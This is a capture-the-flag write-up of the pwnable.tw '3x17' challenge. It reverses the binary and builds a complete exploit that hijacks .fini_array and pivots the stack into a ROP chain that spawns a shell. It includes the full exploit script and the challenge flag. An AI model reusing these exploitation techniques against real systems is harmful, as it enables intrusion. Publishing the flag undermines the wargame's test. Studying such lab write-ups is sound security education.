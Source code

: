 ---
title: '[PWNABLE.TW] - 3x17'
description: 'Old school pwnable challenge'
image: '../../../img/cover_photo_wargame_imresizer.png'
date: 2025-05-02
tags: ['2025', 'Wargame', 'pwnable.tw']
authors: ['kdot']
draft: false
---


## Challenge Information

<Challenge
  category="pwn"
  points={150}
  description="3 x 17 = ?"
  flag="FLAG{Its_just_a_b4by_c4ll_0riented_Pr0gramm1ng_in_3xit}"
>
</Challenge>

## Reverse Engineering

```sh title=checksec'
alter ^ Sol in /mnt/e/sec/lab/pwnable.tw/3x17
$ checksec 3x17
[*] '/mnt/e/sec/lab/pwnable.tw/3x17/3x17'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
```

First we check the binary with `checksec` and we see that it is not compiled with stack canaries, but it has NX enabled. This means that we can use ROP to exploit the binary. Let's take a look at the IDA decompiler code (because this is a stripepd file so I just analyze some main functions).

```c title=3x17'
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  char *what; // [rsp+8h] [rbp-28h]
  char where[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v6; // [rsp+28h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  result = (unsigned __int8)++byte_4B9330;
  if ( byte_4B9330 == 1 )
  {
    print_string(1u, "addr:", 5uLL);
    read_input(0, where, 0x18uLL);
    what = (char *)(int)sub_40EE70(where);
    print_string(1u, "data:", 5uLL);
    read_input(0, what, 0x18uLL);
    return 0;
  }
  return result;
}
```

In general, the main function is very simple. It reads an address and a string from the user. The address is passed to the `sub_40EE70` function, which is a simple function that just returns the address passed to it. The string is then written to that address. This is a classic case of a `write-what-where` primitive. But the problem here is we just can use `write-what-where` primitive one time and the program will exit.

```c
// positive sp value has been detected, the output may be wrong!
void __fastcall __noreturn start(__int64 a1, __int64 a2, int a3)
{
  __int64 v3; // rax
  int v4; // esi
  __int64 v5; // [rsp-8h] [rbp-8h] BYREF
  _UNKNOWN *retaddr; // [rsp+0h] [rbp+0h] BYREF

  v4 = v5;
  v5 = v3;
  sub_401EB0((unsigned int)main, v4, (unsigned int)&retaddr, (unsigned int)init, (unsigned int)fini, a3, (__int64)&v5);
  __halt();
}
```

So this is `start` function appears to be the very first entry point of the program (marked `__noreturn` because it never returns to its caller). It takes three arguments—likely passed by the OS loader—but immediately shuffles them into local variables (`v5` and `v4`) before invoking a helper routine at `sub_401EB0`. That call is passed the address of `main`, the saved return address slot, and the addresses of the CRT `initialization` (`init`) and `finalization` (`fini`) functions, along with the original third argument. In other words, `sub_401EB0` is presumably responsible for performing C runtime setup (running constructors, handling arguments, etc.) and then calling main. Finally, `__halt()` ensures that if for some reason execution ever returns, the CPU will stop, enforcing the `__noreturn` contract. And we pay attention to the 2 things `fini` and `init`, the `init` function will be called first when the program starts, the purpose is to set up some necessary things for the program to be able to execute. On the contrary, the `fini` function will be the function called when the program `exit`. This function will base on `.fini_array` to run 2 destructor functions which are:

- _do_global_dtors_aux
- foo_destructor

and it will call `foo_destructor` first then call `_do_global_dtors_aux`. This means that if we can control the execution flow, we can potentially manipulate the program's termination process and execute arbitrary code before the program exits.

## Exploit Strategies

So we know that the program will call `fini` function when it exits. And we can control which function the `fini` function will call via `write-what-where` primitive. So we can use this to our advantage. We can overwrite the `.fini_array` with our own address. This will allow us to have infinity `write-what-where` primitive. Then we just need to use ROP

## Exploit

Our `.fini_array` is located at `0x4B40F0`:

```c
.fini_array:00000000004B40F0 ; Segment type: Pure data
.fini_array:00000000004B40F0 ; Segment permissions: Read/Write
.fini_array:00000000004B40F0 _fini_array     segment qword public 'DATA' use64
.fini_array:00000000004B40F0                 assume cs:_fini_array
.fini_array:00000000004B40F0                 ;org 4B40F0h
.fini_array:00000000004B40F0 off_4B40F0      dq offset sub_401B00    ; DATA XREF: init+4C↑o
.fini_array:00000000004B40F0                                         ; fini+8↑o
.fini_array:00000000004B40F8                 dq offset loc_401580
.fini_array:00000000004B40F8 _fini_array     ends
```

So to make sure the program executes `main` function infinity times, we will overwrite the `*.fini_array+8` with the address of `main` function and `*.fini_array` with `fini` function. With that we can make the program run like this flow `fini -> main -> fini -> again`.
```python title=exploit.py'
def write_what_where(where, what):
    sla(b'addr:', str(where).encode())
    sa(b'data:', what)

def exploit():

    fini_array = 0x4B40F0
    fini_array_caller = 0x0402960
    main = 0x401b6d

    write_what_where(fini_array,  p64(fini_array_caller) + p64(main))
```

After that we can use ROP to call `execve` syscall to spawn a shell. The idea, to put a ROP chain and execute it is using pivot, we can see that after calling the second entry of `.fini_array` which is `main` function after we overwrite it, the saved `RBP` will be `0x4b40f0` and then it continues call the first entry and continues the loop. So we can use `leave; ret` instruction to pop the `RBP` and then we can pivot the stack to our ROP chain. The ROP chain will look like this:

```py title=exploit.py'
    pop_rdx = 0x446e35
    pop_rdi = 0x401696
    pop_rax = 0x41e4af
    pop_rsi = 0x406c30
    syscall = 0x4022b4
    leave_ret = 0x401c4b

    payload = flat(
        0,
        pop_rdi,
        fini_array + 0x200,
        pop_rax,
        0x3b,
        pop_rsi,
        0,
        syscall,
    )

    for i in range(0, len(payload), 0x8):
        write_what_where(fini_array + 0x10+i, payload[i:i+0x8])
```

Check the first ROP chain to make sure it is correct:

```sh title='GDB'
pwndbg> tel 0x4B40F0 20
00:0000│  0x4b40f0 —▸ 0x402960 ◂— push rbp
01:0008│  0x4b40f8 —▸ 0x401b6d ◂— push rbp
02:0010│  0x4b4100 ◂— 0
03:0018│  0x4b4108 —▸ 0x401696 ◂— pop rdi
04:0020│  0x4b4110 —▸ 0x4b42f0 ◂— 1
05:0028│  0x4b4118 —▸ 0x41e4af ◂— pop rax
06:0030│  0x4b4120 ◂— 0x3b /* ';' */
07:0038│  0x4b4128 —▸ 0x406c30 ◂— pop rsi
08:0040│  0x4b4130 ◂— 0
09:0048│  0x4b4138 —▸ 0x4022b4 ◂— syscall
0a:0050│  0x4b4140 —▸ 0x494580 ◂— 0x800000008
0b:0058│  0x4b4148 —▸ 0x4944a0 ◂— 0x100000001
0c:0060│  0x4b4150 —▸ 0x494220 ◂— 2
0d:0068│  0x4b4158 —▸ 0x4946e0 ◂— 0x100000005
0e:0070│  0x4b4160 —▸ 0x4944c0 ◂— 0x100000001
0f:0078│  0x4b4168 —▸ 0x4941f0 ◂— 0x100000001
10:0080│  0x4b4170 ◂— 0
11:0088│  0x4b4178 —▸ 0x4941e0 ◂— 0x500000005
12:0090│  0x4b4180 —▸ 0x4941c0 ◂— 0x100000001
13:0098│  0x4b4188 —▸ 0x494180 ◂— 0x100000001
```

Everything looks good, now we just need to put `leave; ret` instruction to pivot the to our ROP chain:

```sh title=exploit.py'
    # debug(attach=True)
    write_what_where(fini_array + 0x200, b'/bin/sh\0')
    write_what_where(fini_array, p64(leave_ret) + p64(pop_rdx))
```

<details id="full exploit">
<summary>Full exploit</summary>
<p>

```py title=exploit.py' collapse={1-38}
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from subprocess import check_output
from time import sleep

context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.6", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]
exe = context.binary = ELF('./3x17', checksec=False)
libc = exe.libc

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, aslr=False, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(1)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(int(pid), gdbscript=gdbscript+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe", exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
init-pwndbg

b *0x401BDC
b *0x401C29
b *0x401c4c

c
'''

p = start()

# ==================== EXPLOIT ====================

def write_what_where(where, what):
    sla(b'addr:', str(where).encode())
    sa(b'data:', what)

def exploit():

    fini_array = 0x4B40F0
    fini_array_caller = 0x0402960
    main = 0x401b6d

    write_what_where(fini_array,  p64(fini_array_caller) + p64(main))

    pop_rdx = 0x446e35
    pop_rdi = 0x401696
    pop_rax = 0x41e4af
    pop_rsi = 0x406c30
    syscall = 0x4022b4
    leave_ret = 0x401c4b

    payload = flat(
        0,
        pop_rdi,
        fini_array + 0x200,
        pop_rax,
        0x3b,
        pop_rsi,
        0,
        syscall,
    )

    for i in range(0, len(payload), 0x8):
        write_what_where(fini_array + 0x10+i, payload[i:i+0x8])


    # debug(attach=True)
    write_what_where(fini_array + 0x200, b'/bin/sh\0')
    write_what_where(fini_array, p64(leave_ret) + p64(pop_rdx))

    interactive()

if __name__ == '__main__':
    exploit()
```
</p>
</details>
